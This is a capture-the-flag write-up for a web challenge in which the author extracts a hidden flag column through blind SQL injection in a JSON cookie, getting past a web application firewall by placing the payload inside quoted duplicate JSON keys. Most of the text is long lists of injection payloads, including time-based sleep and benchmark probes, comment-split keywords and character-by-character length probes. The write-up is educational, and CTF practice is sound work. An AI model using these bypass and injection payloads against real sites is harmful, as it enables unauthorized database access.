

# secops (Web - 316pcts.)

```
Firewalls proved to be very useful in our hosting environment as it protects against attacks on vulnerable sites of our clients.
Target: https://secops.dctfq18.def.camp/
Author: Anatol
```

I'll keep it short. very short.

Simple website that let's me change my flair. It looks like this:



So when I click *set as flair* it sets my flair to anything in there. How does it do it? It's a binded onclick event on that button:

```javascript
$('.hook-set').click(function() {
    var prefs = JSON.stringify({ flair: $(this).data('id') });
    document.cookie = 'prefs' + "=" + encodeURIComponent(prefs) + "; path=/";
    location.reload();
});
```

So after fiddling around a bit, I find that the flair with id 4 has the Name `Flag`. That's like jackpot. Easy challenge. Done. lol.

I was thinking the actual flag is in the Price. As you can see the table has 3 columns: id, name, price. Cool.

It's a pain to work with the cookie encoded, so I scripted a little nodejs tool to help me `pwn.js` to do the hard part for me so I could just try different sqli attack vectors. I didn't need much to discover there was an Web Application Firewal in place (a bit later a teammate pointed it out to me that it said so in the description lol. gotta read it more carefully next time)

The query inside I guessed looks something like this `SELECT name FROM table WHERE id = '%id';`. I played with my tool a bit:

```
node pwn.js "' or 1=1--"
node pwn.js "' or 1=1#"
node pwn.js "' or 1=1##"
node pwn.js "' or 1=1/*"
node pwn.js "' or 1=1###"
node pwn.js "' or 1=1"
node pwn.js "' or 1='1"
node pwn.js "' or 1=1'"
node pwn.js "4' or 1=1'"
node pwn.js "4' or 1''=1'"
node pwn.js "4' or '1'=1'"
node pwn.js "4' or '80'=1'"
node pwn.js "4' or 80=1'"
node pwn.js "4' or 80=80'"
node pwn.js "4' or 80=80''"
node pwn.js "4' or 80=80'''"
node pwn.js "4' or 16='0xf"
node pwn.js "4' or 16=0xf'"
node pwn.js "4' or 1='"
node pwn.js "3' or sleep(5000)='"
node pwn.js "3' or sleep(500000)='"
node pwn.js "3' or 1='"
node pwn.js "3'\"\n"
node pwn.js "3'"
node pwn.js "3' or sleep(1)=0"
node pwn.js "3' or sl/**/eep(1)=0"
node pwn.js "3' or sl/**/eep(1)='0"
node pwn.js "3' or sl/**/eep(50)='0"
node pwn.js "3' or SLeEp(50)='0"
node pwn.js "3' or SLeEp (50)='0"
node pwn.js "3' or benchmark(200000,md5(now()))='0"
node pwn.js "3' or benchmark()='0"
node pwn.js "3' or b/**/enchmark()='0"
node pwn.js "3' or md5()='0"
node pwn.js "3 or md5()=0"
node pwn.js "3' or"
node pwn.js "3' or 1=1--"
node pwn.js "3' or 1=1/*"
node pwn.js "3' or 1=1#"
```

All failures. Website was sending 500 on SQL ERROR. Otherwise, WAF was blocking the request with 403. almost every time.

Then I figured out after reading a bit on WAF on OWASP that maybe it reacts somehow to
a cookie like `{"flair":"a","flair":${JSON.stringify(flair)},"flair":"b"}`. Nope. But that pointed me on the right direction. The WAF was accepting some things when I used quotes around them. So what if quote left and right, json valid, and send it. Hopefully WAF uses a regex, not a json parser (who parses cookies for JSON?!), so maybe it's not that strict inside quotes.

We got a winner.
`{"flair":"'","flair":${JSON.stringify(flair)},"flair2":"'"}`
PS: I dont think the first flair key is necessary but I didn't test it.

So back to testing attack vectors:
```
node pwn.js "3' order by '1"
node pwn.js "3' order by '1'--#"
node pwn.js "3' order by '1'"
node pwn.js "3' order by 1"
node pwn.js "3' or 1='1"
node pwn.js "3' and 1='0"
node pwn.js "3' union all select '1"
node pwn.js "3' union sele/**/ct '1"
node pwn.js "3' u/**/nion sele/**/ct '1"
node pwn.js "3' union select '1"
```

`Union select` blocked by WAF.

```
node pwn.js "4' and length(price)<10 and 1='1"
node pwn.js "4' and length(price)<5 and 1='1"
node pwn.js "4' and length(price)<8 and 1='1"
node pwn.js "4' and length(price)<6 and 1='1"
node pwn.js "4' and length(price)<7 and 1='1"
node pwn.js "4' and length(price)=6 and 1='1"
node pwn.js "4' and left(price,2)='99' and 1='1"
node pwn.js "4' and left(price,3)='999' and 1='1"
node pwn.js "4' and left(price,4)='9999' and 1='1"
node pwn.js "4' and left(price,4)='999.' and 1='1"
node pwn.js "4' and left(price,5)='999.' and 1='1"
node pwn.js "4' and left(price,5)='999.9' and 1='1"
node pwn.js "4' and left(price,7)='999.99' and 1='1"
node pwn.js "4' and left(price,6)='999.99' and 1='1"
node pwn.js "4' and (sel/**/ect 1 from information_schema)='999.99' and 1='1"
node pwn.js "4' and (sel/**/ect 1 from informat/**/ion_schema)='999.99' and 1='1"
node pwn.js "4' and (union select 1 from informat/**/ion_schema)='999.99' and 1='1"
```

The flag wasn't in `price` :(. also `information_schema` blocked.

```
node pwn.js "4' order by '1"
node pwn.js "4' and length(flag)='999.99' and 1='1"
node pwn.js "4' and length(flag)>0 and 1='1"
node pwn.js "4' and length(flag)>10 and 1='1"
node pwn.js "4' and length(flag)<100 and 1='1"
node pwn.js "4' and length(flag)<50 and 1='1"
node pwn.js "4' and length(flag)<25 and 1='1"
node pwn.js "4' and length(flag)<10 and 1='1"
node pwn.js "4' and length(flag)<64 and 1='1"
node pwn.js "4' and length(flag)=64 and 1='1"
node pwn.js "4' and length(flag)=70 and 1='1"
```

But on a lucky guess of a teammate I found out there was another column named `flag` and it had the right length (70 chars). Jackpot!

After that I coded a binary search into my script and waited a bit to get the flag. BLIND. The code is in `pwn.js`. To run it you need `nodejs`
```
npm install
npm pwn.js
```
